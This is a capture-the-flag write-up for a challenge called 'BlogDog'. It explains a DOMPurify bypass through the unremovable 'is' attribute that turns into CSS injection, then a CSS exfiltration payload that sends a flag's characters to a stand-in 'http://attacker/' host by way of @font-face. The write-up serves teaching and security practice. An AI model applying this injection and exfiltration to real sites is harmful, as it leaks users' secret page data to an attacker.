 # BlogDog

This challenge consists of a website that renders html and uses DOMPurify to sanitize it, as well as an xssbot that will visit a page of user's choice.

The page features a flag input box (filled by xssbot) and a content textarea, which automatically loads the text in the URL after *?*.

## The sanitization

The first step is to bypass the sanitization on the page. First, the submitted text has some html-unsafe characters stripped (`/["'&]/g`), then it is put through DOMPurify, and finally it is stripped once again with a similar regex (`/["'&]/`, no `g`). The end result gets put in an innerHTML template where it appears both in the DOM as well as the `content` attribute of a CSS style.

The DOMPurify config used is very strict:

```js
const purifyConfig = {
    ALLOWED_ATTR: [],
    ALLOWED_TAGS: ["a", "b", "i", "s", "p", "br", "div", "h1", "h2", "h3", "strike", "strong"],
    ALLOW_ARIA_ATTR: false,
    ALLOW_DATA_ATTR: false,
}
```

With a config this strict, it is unlikely that we could find a way to break the DOM part of the output template, so let's try to break the CSS part instead.

We cannot break out of content with a newline as that is escaped with `sanitized.replace(/([\\/\n\r\f])/g,'\\$1')`. We *could* break out with a quote, but we don't have a quote at the moment as all quotes get stripped by the first regex and we're not allowed to use any attributes in DOMPurify.

Something suspicious that immediately stands out is that the second quote-stripping regex is not global - it only strips the first quote. This hints that it may still be possible to somehow get quotes from DOMPurify itself.

### Bypassing sanitization

The bypass for the sanitization relies on an interesting web spec quirk about the [`is`](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/is) attribute, which is that it cannot be removed in some cases (eg when set with `innerHTML`):

```js
const div = document.createElement('div');
div.innerHTML = '<a is="123">';
console.log(div.innerHTML); // <a is="123"></a>
div.querySelector('a').removeAttribute("is");
console.log(div.innerHTML); // <a is="123"></a>
div.querySelector('a').setAttribute("is", "");
console.log(div.innerHTML); // <a is=""></a>
div.querySelector('a').removeAttribute("is");
console.log(div.innerHTML); // <a is="123"></a>
```

While this behaviour is perhaps not widely known, it can be discovered in a few different ways, such as fuzzing, reading web spec/docs, or looking at the DOMPurify source code.

For example, one may [look into](https://github.com/cure53/DOMPurify/blob/f41b45df18a9666a50c1ad2662cee259230cfef4/src/purify.ts#L1176) how the DOMPurify `ALLOWED_ATTR/ALLOWED_DATA_ATTR/ALLOWED_ARIA_ATTR` config options are handled, and in the same block of code they'd find [a special case for the `is` attribute](https://github.com/cure53/DOMPurify/blob/f41b45df18a9666a50c1ad2662cee259230cfef4/src/purify.ts#L1200). Another [part of the code](https://github.com/cure53/DOMPurify/blob/f41b45df18a9666a50c1ad2662cee259230cfef4/src/purify.ts#L861) even comments on the *unremovable "is" attributes*.

This means that by feeding `<a is>` into DOMPurify, we get `<a is=""></a>` back. The second quote regex replace turns it into `<a is="></a>`, which breaks out of the CSS content and allows us to inject custom CSS.

We can try it by typing `<a is>}*{color:red}` into the content textarea - everything on the page turns red due to the CSS injection.

## Crafting the data exfil

From here we can begin exfiltrating the data with a usual `input` field CSS exfiltration attack, albeit with a few caveats.

### CSP

The first challenge we're facing is the CSP: `script-src 'self' 'nonce-NONCE'; style-src 'nonce-NONCE'; object-src 'none'; img-src 'self';`.

This CSP only allows style and script tags with a nonce in them, so we cannot create new ones - this isn't a problem for us because we're already injecting inside of a style tag with the nonce set.

Another thing this CSP does is prevent loading images from other domains - this means we cannot do exfiltration by setting an image in the style of `background:url(http://example/)`. This can easily be bypassed by fetching a resource that is not an image, such as a @font-face.

An example attack would be (newlines added for readability):

```css
<a is>}
@font-face {
    font-family: foo;
    src: url(http://attacker/);
}
input[value^=x3c]{
    font-family: foo;
}
```

### Limited characters

The second challenge is a reduced character set - we cannot use quotes in our CSS, which breaks some other things, such as limiting us to [idents](https://developer.mozilla.org/en-US/docs/Web/CSS/ident) (as opposed to [strings](https://developer.mozilla.org/en-US/docs/Web/CSS/string)) in `input[value]` selector queries.

In the above example attack, we *can* match input values beginning with `x3c`, but not `x3c{`, because that is not allowed in an [ident](https://developer.mozilla.org/en-US/docs/Web/CSS/ident).

Luckily we already know the exact flag format from the `index.js` file: 68 characters long and matching `/^x3c{[a-z0-9_]+}$/`. This means we can instead use the `input[value*=foo]` selector to match the middle of the input instead of the beginning or end. From then on we can just expand our match character-by-character in either direction until we have the entire inner-flag.

One strat would be to start off with just `_` and add random characters to it until we find a match, to then expand it. In reality we would want to try out all the combinations and figure out the earliest match, because idents cannot begin with an unescaped digit, which limits our ability to match backwards.

## Launching the payload

We can make the xssbot visit a website of our choice by putting a link to the site in a post, and then submitting it.

Once the xssbot is on our page, we can run our payload by running `window.open("http://localhost:3000/?payload")`. The payload must not be url-encoded. We cannot use iframes because of storage partitioning, which means we wouldn't be able to access the localstorage within the iframe.

### Scripting the exfil

The website limits submitting blogs posts with links to one per minute. This combined with the long flag (68 characters) is intended to encourage the player to automate the attack, instead of manually getting every character by hand (which would take over an hour).

This means you'd want to craft an attack that keeps navigating the window you opened, updating the payload every time a new character is reported back to the server.

There are probably existing CSS-exfil scripts out there which could be modified to work for this challenge. Alternatively, you could just write your own.

An example solve server has been provided in `solver.py`. To use it, run the server, then submit an article on the chall page containing the url pointing to the solve server (eg just `http://example.com:8000/`).
